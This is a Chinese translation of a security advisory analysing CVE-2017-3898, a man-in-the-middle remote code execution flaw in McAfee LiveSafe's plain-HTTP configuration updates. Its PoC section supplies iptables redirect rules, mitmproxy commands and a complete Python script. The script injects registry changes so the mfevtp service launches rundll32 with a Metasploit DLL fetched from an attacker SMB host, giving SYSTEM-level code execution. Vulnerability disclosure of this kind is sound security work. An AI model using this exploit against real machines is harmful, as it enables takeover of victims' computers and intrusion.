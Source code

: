 > 原文链接: https://www.anquanke.com//post/id/86875 


# 【技术分享】McAfee LiveSafe MiTM RCE漏洞（CVE-2017-3898）的分析


                                阅读量   
                                **97537**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：securiteam.com
                                <br>原文地址：[https://blogs.securiteam.com/index.php/archives/3248#more-3248](https://blogs.securiteam.com/index.php/archives/3248#more-3248)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t0124fbb8805157c163.jpg)](https://p4.ssl.qhimg.com/t0124fbb8805157c163.jpg)

译者：[eridanus96](http://bobao.360.cn/member/contribute?uid=2857535356)

预估稿费：130RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**漏洞概述**

该漏洞影响McAfee LiveSafe (MLS) **16.0.3**之前的全部版本，存在远程代码执行。此漏洞允许攻击者通过篡改**HTTP后端响应**，从而修改与McAfee更新相关的Windows注册表值。

McAfee Security Scan Plus是一个免费的诊断工具，可检查计算机中的防病毒软件、防火墙及Web安全软件，同时还会扫描已运行程序中的威胁。

该漏洞由**Silent Signal**首次发现并通报。目前已发布该漏洞的补丁，网址为：[https://service.mcafee.com/webcenter/portal/cp/home/articleview？articleId=TS102714](https://service.mcafee.com/webcenter/portal/cp/home/articleview%EF%BC%9FarticleId=TS102714)

**<br>**

**漏洞详情**

攻击者可以在多个McAfee产品中实现远程代码执行。受影响的产品会通过明文HTTP通道，从[http://COUNTRY.mcafee.com/apps/msc/webupdates/mscconfig.asp](http://country.mcafee.com/apps/msc/webupdates/mscconfig.asp)检索配置数据（其中的“COUNTRY”修改为国家的两字母标识符，例如英国是“uk”、中国是“cn”）。

响应的正文包含XML格式数据，类似于下列内容：

```
&lt;webservice-response response-version="1.0" frequency="168"
verid="1#1316#15#0#2"&gt;
&lt;update&gt;
&lt;reg key="HKLMSOFTWAREMcAfeeMSCSettingsInProductTransaction"
name="enable" type="REG_DWORD" value="1" obfuscate="0"/&gt;
&lt;/update&gt;
&lt;/webservice-response&gt;
```

在上述响应中，描述了在“webservice-response/update”路径下使用reg标记进行的注册表修改行为。

这一请求和后续的更新会自动触发，首次触发是在软件安装后的特定分钟后（默认情况下为168分钟）。

此更新由McSvHost.exe进程的PlatformServiceFW.dll执行，方法是使用/update参数调用mcsvrcnt.exe程序。McSvHost.exe进程使用由实现注册表更改的mcsvrcnt.exe继承的系统权限运行。

因此，攻击者可以修改服务器响应，以使用系统（SYSTEM）权限写入特定的注册表。

**<br>**

**PoC**

我们可以借助该漏洞，作为代理来拦截和修改明文HTTP请求及响应。由于该软件对HTTPS服务会进行证书验证，因此，让这些连接不经过修改就非常重要。

常规的HTTP代理模式中，可以通过使用–ignore mitmproxy的命令行参数来实现这一点：

```
mitmproxy -s mcreggeli_inline.py --ignore '.*'
```

在透明代理的模式下，不应该提供上述参数：

```
mitmproxy -s mreggeli_inline.py –T
```

针对透明代理模式，可使用以下命令，在基于Debian的Linux发行版本上配置 NAT和端口重定向（此处eth0 是对目标可见的接口，eth1连接到网络）：

```
iptables -t nat -A PREROUTING -i eth0 -p tcp <br>--dport 80 -j REDIRECT --to 8080<br>iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE<br>sysctl net.ipv4.ip_forward=1
```

该脚本会在请求URL中查找“mscconfig.asp”字符串。如果发现XML响应正文被反序列化，则会根据在脚本开头声明的reg变量，添加新的reg节点。REG变量是一个字典列表，每个字典都包含以下键：

**密钥：要修改的注册表项的名称** （例如“HKLMSYSTEMCurrentControlSetServicesmfevtp”，其中的反斜线需进行Python的转义）；

**类型：需要创建的值的类型**（例如字符串的“REG_SZ”）；

**名称：需要创建的值的名称；**

**值：需要创建的值。**

该漏洞利用还会将频率属性更改为1，这样一来，如果需要再次渗透，就可以在更短的时间内（1小时之内）进行。插入新节点后，将序列化生成的对象，并将其置于原始响应正文的位置。

为了演示，我们覆盖了受影响的McAfee产品（即mfevtp，McAfee进程验证服务）的一个服务条目——HKLMSYSTEMCurrentControlSetServicesmfevtp，其值被替换为指向带有指向攻击主机的 UNC 路径参数的rundll32.exe。在这里，我们使用了Metasploit中smb_delivery模块提供的payload test.dll：

[![](https://p3.ssl.qhimg.com/t0144e4d8621fda0539.png)](https://p3.ssl.qhimg.com/t0144e4d8621fda0539.png)

REG变量声明如下：

```
REG=[`{`"key":"HKLM\SYSTEM\CurrentControlSet\Services\mfevtp", "type":"REG_SZ","name":"ImagePath", "value":"c:\windows\system32\rundll32.exe \\172.16.205.1\pwn\test.dll,0"`}`,]
```

这样一来，在重新启动计算机之后，系统（SYSTEM）级的命令执行就会被触发，而McAfee软件并没有发现该情况的存在。

```
mcreggeli_inline.py
#!/usr/bin/env python3
#
# HTTP proxy mode:
#  mitmproxy -s mcreggeli_inline.py --ignore '.*'
#
# Transparent proxy mode:
#   mitmproxy -s mcreggeli_inline.py -T --host
# from mitmproxy import ctx, http
from lxml import etree
REG=[`{`"key":"HKLM\SYSTEM\CurrentControlSet\Services\mfevtp","type":"REG_SZ","name":"ImagePath","value":"c:\windows\system32\rundll32.exe \\172.16.205.1\pwn\test.dll,0"`}`,]
  def response(flow):
        if flow.request.scheme == "http" and "mscconfig.asp" in flow.request.url:
            try:
                oxml=etree.XML(flow.response.content)
                oxml.set("frequency","1")
                update=oxml.xpath("//webservice-response/update")[0]
                for r in REG:
                    reg=etree.SubElement(update,"reg")
                    reg.set("key", r["key"])
                    reg.set("type", r["type"])
                    reg.set("obfuscate", "0")
                    reg.set("name", r["name"])
                    reg.set("value", r["value"])
                #ctx.log(etree.tostring(oxml))
                flow.response.content=etree.tostring(oxml)
                ctx.log("[+] [MCREGGELI] Payload sent")
            except etree.XMLSyntaxError:
                ctx.log("[-] [MCREGGELI] XML deserialization error")
```
